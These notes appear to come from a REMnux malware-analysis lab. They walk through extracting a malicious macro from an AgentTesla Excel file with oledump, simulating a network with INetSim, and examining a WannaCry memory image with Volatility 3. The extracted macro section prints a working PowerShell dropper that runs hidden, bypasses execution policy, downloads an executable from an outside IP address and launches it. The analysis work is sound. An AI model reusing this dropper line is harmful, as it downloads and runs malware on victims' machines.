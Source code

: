 
# REMnux: Getting Started

## Overview
The REMnux VM is a Linux distro specialized for malware analysis, featuring tools like Volatility, YARA, Wireshark, oledump, and INetSim. This guide covers analyzing a malicious Excel document, simulating a network environment with INetSim, and memory analysis with Volatility.

---

## Static Analysis with oledump.py

### Target File
- **Path:** `/home/ubuntu/Desktop/tasks/agenttesla/`
- **File:** `agenttesla.xlsm`

### Steps:
1. **List streams:**
   ```bash
   oledump.py agenttesla.xlsm
   ```
   Key macro stream: `A4: M 688 'VBA/ThisWorkbook'`

2. **Extract and decompress macro:**
   ```bash
   oledump.py agenttesla.xlsm -s 4 --vbadecompress
   ```

### Extracted PowerShell Code:
```powershell
powershell -WindowStyle hidden -executionpolicy bypass; 
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru; 
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; 
Start-Process $TempFile;
```

---

## Simulated Network with INetSim

### Configuration
- Edit `/etc/inetsim/inetsim.conf`:
  ```bash
  dns_default_ip MACHINE_IP
  ```

- Start INetSim:
  ```bash
  sudo inetsim
  ```

### Simulate Malware Behavior (AttackBox)
- Download via CLI:
  ```bash
  sudo wget https://MACHINE_IP/second_payload.zip --no-check-certificate
  sudo wget https://MACHINE_IP/second_payload.ps1 --no-check-certificate
  ```

### INetSim Report
- Location: `/var/log/inetsim/report/`
- View Report:
  ```bash
  sudo cat /var/log/inetsim/report/report.<session_id>.txt
  ```

---

## Memory Analysis with Volatility 3

### Memory Image
- **Path:** `/home/ubuntu/Desktop/tasks/Wcry_memory_image/`
- **File:** `wcry.mem`

### Useful Plugins:
```bash
vol3 -f wcry.mem windows.pstree.PsTree
vol3 -f wcry.mem windows.pslist.PsList
vol3 -f wcry.mem windows.cmdline.CmdLine
vol3 -f wcry.mem windows.filescan.FileScan
vol3 -f wcry.mem windows.dlllist.DllList
vol3 -f wcry.mem windows.psscan.PsScan
vol3 -f wcry.mem windows.malfind.Malfind
```

Each plugin reveals different aspects of the memory image to assist in threat analysis.

---

## Summary
- Macros in Excel files can execute hidden PowerShell commands.
- INetSim simulates a network for observing malware behavior.
- Volatility 3 is key for forensic memory analysis.
